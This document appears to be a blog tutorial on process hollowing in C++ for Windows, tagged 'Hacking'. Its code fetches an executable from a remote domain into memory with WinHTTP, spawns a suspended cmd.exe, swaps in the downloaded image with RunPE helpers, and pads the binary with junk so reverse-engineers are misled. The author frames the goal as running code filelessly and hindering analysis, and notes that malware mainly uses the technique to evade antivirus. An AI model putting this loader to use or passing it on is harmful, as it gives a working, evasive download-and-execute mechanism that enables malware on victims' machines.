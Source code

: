 {
"title": "process hollowing",
"description": "Streaming and executing arbitrary machine code",
"tags": ["Hacking", "Windows", "C++"],
"author": "strayfade",
"date": "1/13/2023",
"showTitle": true,
"indexed": true,
"pinned": false
}

### Introduction

Process hollowing is a technique to run executable, binary code, while disguised as a different process. It is mainly used by malware to replace the code of a running, trusted program with its own, making it very difficult to detect. Although its main use is to evade detection by anti-viruses, process hollowing also has a legitimate use.

> More information about process hollowing can be found at [https://attack.mitre.org/techniques/T1055/012/](https://attack.mitre.org/techniques/T1055/012/)

We can use process hollowing to download and run an executable without reading or writing to the disk, which is very useful in preventing reverse-engineering of our code.

### Downloading Binary

We will use `WinHTTP` to download a file from the internet into a temporary buffer.

First, we open an `HINTERNET` session object and initialize its connection to the domain our binaries are stored on.

    HINTERNET hSession = WinHttpOpen(USER_AGENT, WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
    HINTERNET hConnection = WinHttpConnect(hSession, DOWNLOAD_DOMAIN, (DOWNLOAD_USE_HTTPS ? INTERNET_DEFAULT_HTTPS_PORT : INTERNET_DEFAULT_HTTP_PORT), 0);

Here, `USER_AGENT` is defined as a default User Agent (`Mozilla/5.0 (X11;...`) and `DOWNLOAD_DOMAIN` is the domain where our binaries are hosted (`strayfade.com` in this case)
`DOWNLOAD_USE_HTTPS` is defined as `true` so that we connect on port 443 which is used for HTTPS.

    HINTERNET hRequest = WinHttpOpenRequest(hConnection, L"GET", DOWNLOAD_PATH, NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);

- `L"GET"` tells WinHTTP to create a `GET` request
- `DOWNLOAD_PATH` is the path of the binaries on the server (`/cdn/file.exe`)
- `WINHTTP_DEFAULT_ACCEPT_TYPES` tells WinHTTP to accept binary data.
- `WINHTTP_FLAG_SECURE` tells WinHTTP that this data is served over HTTPS.

This code sends the request and reads the response into the `hRequest` variable. Below, we get the size of the transferred data to allocate memory for it.

    WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0))
    WinHttpReceiveResponse(hRequest, NULL)

    DWORD contentLength = 0;
    DWORD contentLengthBufferSize = 128;
    WinHttpQueryHeaders(hRequest, WINHTTP_QUERY_CONTENT_LENGTH | WINHTTP_QUERY_FLAG_NUMBER, WINHTTP_HEADER_NAME_BY_INDEX, &contentLength, &contentLengthBufferSize, WINHTTP_NO_HEADER_INDEX)
    unsigned char* buffer = new unsigned char[contentLength];

Next, we have to read the response into the array

    DWORD bytesRead = 0;
    WinHttpReadData(hRequest, (LPVOID)buffer, contentLength, &bytesRead);

### Creating a process

> I learned about most of this from the [adamhlt/Process-Hollowing](https://github.com/adamhlt/Process-Hollowing) repository on GitHub, so credit goes to them for some bits of this code.

First, we have to create a dummy process to be "hollowed":

    CreateProcessA((LPSTR)HOST_PROCESS, nullptr, nullptr, nullptr, TRUE, CREATE_SUSPENDED, nullptr, nullptr, &SI, &PI);

What's important here is the `HOST_PROCESS` variable and `CREATE_SUSPENDED` flag. `HOST_PROCESS` is a path (string) to the executable to hollow. For our use, this is set to the absolute path of `cmd.exe`. The `CREATE_SUSPENDED` flag tells `CreateProcessA` to suspend the process as soon as it is created, letting us replace its PE image before it starts.

We also need to check whether or not the running executable is compatible (has the same architecture as our replacement code). To do this, I'm using functions from the `Process-Hollowing` repository:

    bool bTarget32;
    IsWow64Process(PI.hProcess, &bTarget32);
    ProcessAddressInformation ProcessAddressInformation = { nullptr, nullptr };
    ProcessAddressInformation = GetProcessAddressInformation64(&PI); // Get base address of process to hollow
    const bool bSource32 = IsPE32(hFileContent); // hFileContent is a cast of buffer to type LPVOID

    DWORD dwSourceSubsystem = GetSubsytem64(hFileContent);
    DWORD dwTargetSubsystem = GetSubsystemEx64(PI.hProcess, ProcessAddressInformation.lpProcessImageBaseAddress);
    if (dwSourceSubsystem != dwTargetSubsystem)
        return;

Finally, we do the actual process hollowing

    bool bHasReloc = HasRelocation64(hFileContent);
    if (!bHasReloc)
        RunPE64(&PI, hFileContent);
    else
        RunPEReloc64(&PI, hFileContent);

### More Important Things

One neat thing we can do to confuse reverse-engineerers is to pad our executable with junk code, since the whole program only ends up at about 16kb. There aren't many useful programs which are that small, so we need to add junk code to make our process hollowing look like it's just running the original program. I added 2mb of filler to the program, since the binaries we were downloading were around that size.

    CreateThread(0, 0, (LPTHREAD_START_ROUTINE)Pad, 0, 0, 0); // This runs in a thread after the process hollowing has finished.

### References

- [https://attack.mitre.org/techniques/T1055/012/](https://attack.mitre.org/techniques/T1055/012/)
- [https://github.com/adamhlt/Process-Hollowing](https://github.com/adamhlt/Process-Hollowing)
- [https://github.com/kernelm0de/RunPE-ProcessHollowing](https://github.com/kernelm0de/RunPE-ProcessHollowing)
